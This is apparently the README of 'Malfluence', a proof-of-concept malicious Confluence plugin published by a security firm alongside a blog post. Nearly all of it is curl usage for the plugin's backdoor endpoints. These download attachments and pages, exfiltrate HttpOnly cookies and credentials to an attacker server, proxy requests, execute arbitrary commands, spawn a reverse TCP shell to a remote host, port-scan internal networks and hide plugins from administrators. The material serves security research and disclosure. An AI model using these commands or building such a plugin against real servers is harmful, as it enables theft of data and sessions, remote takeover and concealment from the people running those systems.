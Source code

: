 # Malfluence 
A PoC for a malicious Confluence plugin. Read more about this on [our blog](https://cyllective.com/blog/posts/atlassian-malicious-plugin/).

The general code may also work with slight adjustments in Jira but the plugin cannot be directly installed into Jira. 

## Features
### List & download attachments
```sh
curl "http://yourserver/rest/maintenance/latest/listattachments?accesskey=<Access Key>"

curl "http://yourserver/rest/maintenance/latest/getattachment?accesskey=<Access Key>&id=<Attachment ID>" -O
```
![](media/attachments.png)

### List & download pages
```sh
curl "http://yourserver/rest/maintenance/latest/listpages?accesskey=<Access Key>"

curl "http://yourserver/rest/maintenance/latest/getpage?accesskey=<Access Key>&id=<Page ID>"
```
![](media/pages.png)

### Steal cookies
Since the cool cookies have HttpOnly set, this works by first sending a request to the custom endpoint `/getheaders`, which returns all headers base64 encoded into the DOM. Those are then sent to the attacker. 

```sh
# Configure the server which will receive POST requests of users containing base64 encoded headers
curl "http://yourserver/rest/maintenance/latest/headerexfilconfig?accesskey=<Access Key>&url=<base64 encoded target URL>&enabled={TRUE,FALSE}"
```

```sh
python3 headerserver.py
```
![](media/cookiesteal.gif)

### Steal credentials
```sh
python3 credsserver.py
```
![](media/credssteal.gif)

### Issue HTTP requests through the server
```sh
curl "http://yourserver/rest/maintenance/latest/proxy?accesskey=<Access Key>&method={GET,POST}&url=<base64 encoded URL>&headers=<base64 encoded headers (name1:value1,nameN:valueN)>&body=<base64 encoded body for POST>"
```
![](media/proxy.png)

### Execute commands on the server
```sh
curl "http://yourserver/rest/maintenance/latest/exec?accesskey=<Access Key>&cmd=<Command to run>&args=<arg1,arg2,arg3>"
```
![](media/exec.png)

### Spawn a reverse TCP shell
```sh
curl "http://yourserver/rest/maintenance/latest/revshell?accesskey=<Access Key>&rhost=<Remote Host>&rport=<Remote Port>"
```
![](media/revshell.png)

### Scan for open ports on hosts reachable by the server
```sh
curl "http://yourserver/rest/maintenance/latest/portscan?accesskey=<Access Key>&ip=<IP address>"
```
![](media/portscan.png)

### Hide plugins from the plugin overview
```sh
curl "http://yourserver/rest/maintenance/latest/hideplugins?accesskey=<Access Key>&plugins=<com.plugin.hideme,com.plugin.hidemeto>&enabled={TRUE,FALSE}"
```
![](media/hideplugin.gif)
